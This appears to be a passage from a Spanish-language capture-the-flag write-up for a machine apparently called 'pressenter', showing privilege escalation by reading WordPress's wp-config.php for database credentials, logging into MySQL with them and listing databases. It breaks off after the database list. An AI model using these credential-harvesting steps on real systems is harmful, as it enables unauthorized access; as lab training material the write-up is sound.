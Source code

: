## Escalate user enter

Si nos vamos a la siguiente direccion de directorio.

```shell
cd /var/www/pressenter/
```

Podremos ver el tipico archivo de configuracion de `wordpress` donde suelen contener las credenciales para conectarte por `mysql` llamado `wp-config.php` y si lo leemos.

```shell
cat wp-config.php
```

Info:

```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Vemos la seccion interesante donde obtenemos las credenciales para conectarnos por `mysql`.

### mysql credentials

```shell
mysql -u admin -prooteable
```

Y con eso estariamos dentro, listamos las bases de datos y nos metemos en la de `wordpress`, dentro de la misma en las tablas hay una que no suele estar llamada `wp_usernames`, si la vemos por dentro veremos que son las credenciales del usuario `enter`.

```shell
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.00 sec)
```
